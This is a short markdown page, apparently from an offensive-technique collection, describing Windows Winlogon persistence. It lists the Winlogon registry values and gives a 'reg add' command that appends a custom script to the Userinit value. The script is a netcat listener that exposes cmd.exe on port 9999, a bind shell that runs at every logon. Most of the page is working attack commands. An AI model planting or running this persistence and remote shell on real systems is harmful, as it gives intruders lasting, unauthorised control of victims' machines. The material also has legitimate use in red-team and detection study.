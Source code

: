 # Logon Helper

Winlogon.exe is a Windows component responsible for actions at logon/logoff as well as the secure attention sequence (SAS) triggered by Ctrl-Alt-Delete.

Winlogon registry keys and value for persistence are:

```
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify 
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\shell
```

### Winlogon before add our script

```cmd
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit
```

### Add script to winlogon

```cmd
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit \
 /d C:\Windows\system32\userinit.exe,E:\persistent\driver.cmd /t reg_sz /f
```

##### driver.cmd

```
nc -l -p 9999 -e cmd.exe
```